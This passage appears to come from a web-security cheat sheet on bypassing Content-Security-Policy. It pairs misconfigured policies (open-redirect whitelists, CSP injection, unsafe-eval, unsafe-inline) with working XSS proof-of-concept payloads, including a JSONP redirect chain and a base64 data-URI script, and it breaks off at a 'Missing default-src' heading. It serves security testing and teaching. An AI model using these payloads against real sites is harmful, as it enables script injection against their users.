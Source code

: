 ## Bypass using open redirect

```http
Content-Security-Policy: script-src 'self' accounts.google.com/random/ website-with-redirect.com; object-src 'none';
```

There are two whitelisted domains from where scripts can be loaded to the webpage. If one of domains is vulnerable to open redirect you can craft a payload using redirect domain targeting to other whitelisted domains with a JSONP endpoint. XSS will execute because while redirection browser only validated host, but **not** the path parameters. Possible payload:

```html
">'><script src="https://website-with-redirect.com/redirect?url=https%3A//accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>">
```

## CSP injection

CSP policy could be generated dynamically based on variables that are controlled by a user. If the variables are not properly validated you can inject your own directives into CSP and bypass a policy.

References:
- [Writeup: CSP Injection - CTFZone 2019 Quals - Shop Task](https://blog.blackfan.ru/2019/12/ctfzone-2019-shop.html)
- [Writeup: Bypassing CSP with policy injection by @garethheyes](https://portswigger.net/research/bypassing-csp-with-policy-injection)

## unsafe-eval

```http
Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-eval' data: http://*; child-src 'none';
```

This is a misconfigured CSP policy due to usage of `unsafe-eval`. Possible payload: 

```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

## unsafe-inline

```http
Content-Security-Policy: script-src https://facebook.com https://google.com 'unsafe-inline' https://*; child-src 'none';
```

This policy will allow inline scripting due to usage of `unsafe-inline`. Possible payload:

```html
"/><script>alert(1337);</script>
```

## Missing default-src
